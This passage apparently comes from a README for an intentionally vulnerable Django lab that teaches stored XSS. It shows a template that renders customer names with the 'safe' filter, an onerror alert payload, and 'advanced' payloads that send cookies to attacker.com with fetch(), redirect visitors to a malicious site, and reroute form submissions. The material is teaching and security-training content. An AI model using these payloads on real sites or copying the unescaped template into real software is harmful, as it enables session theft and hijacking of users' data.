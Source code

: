 
### **🎯 Stored XSS Attack 2: System Dashboard**

#### **Vulnerable Code Location:**
```html
<!-- mainapp/templates/mainapp/system.html -->
{% if new_customer %}
    ✅ New customer added: {{ new_customer.first_name|safe }} {{ new_customer.last_name|safe }}
{% endif %}
```

#### **Attack Payload:**
```html
First Name: <img src="x" onerror="alert('Dashboard Hacked!');">
```

#### **What Happens:**
1. Script executes immediately on dashboard after customer creation
2. **Immediate impact** on the user who created the customer

---

### **🎯 Advanced XSS Payloads**

#### **Cookie Stealing:**
```html
<script>fetch('http://attacker.com/steal?data=' + document.cookie);</script>
```

#### **Page Redirection:**
```html
<script>window.location = 'http://malicious-site.com';</script>
```

#### **Form Hijacking:**
```html
<script>document.forms[0].action = 'http://attacker.com/steal';</script>
```

---

## 📖 **Detailed Setup**

### **🔧 Prerequisites**
- **Python 3.8+**
- **Django 5.2**
- **SQLite** (included)
- **Ethical Use Agreement** ⚖️

---

## 📚 **Vulnerability Documentation**
